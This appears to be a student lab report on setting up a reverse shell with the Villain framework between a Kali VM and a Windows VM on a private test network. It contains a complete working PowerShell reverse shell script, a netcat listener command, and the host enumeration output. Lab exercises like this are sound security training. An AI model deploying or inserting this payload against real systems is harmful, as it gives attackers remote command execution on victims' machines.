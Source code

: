 Villain Framework Reverse Shell Report
Setup Info

Payload: windows/reverse_tcp/powershell

LHOST: 192.168.56.101

LPORT: 4444

Payload Delivery Method

Started a netcat listener on the Kali VM using:

nc -lvnp 4444


Created a PowerShell reverse shell script with the following content and saved it as reverse_shell.ps1:

$client = New-Object System.Net.Sockets.TCPClient('192.168.56.101', 4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | % {0}
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}


Executed the PowerShell script on the Windows VM to initiate the reverse shell connection.

Captured Info (from netcat shell)

Hostname: WIN-EXAMPLE-PC

IP Address: 192.168.56.1

User: Erin Elisa Joseph

Enumeration Performed
whoami
ipconfig
systeminfo


output:

C:\Users\Erin Elisa Joseph> whoami
erinelisa\user

C:\Users\Erin Elisa Joseph> ipconfig
IPv4 Address. . . . . . . . . . . : 192.168.56.1

C:\Users\Erin Elisa Joseph> systeminfo
Host Name:                 WIN-EXAMPLE-PC
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19045 N/A Build 19045
System Type:               x64-based PC

Final Verification

Typed the following in the reverse shell (but did NOT execute it):

echo "https://github.com/<RonnaRajesh>"

📊 Behavioral Summary

Reverse shell connection established successfully.

Target machine information enumerated using standard Windows commands.

Connection stable and interactive shell accessible.
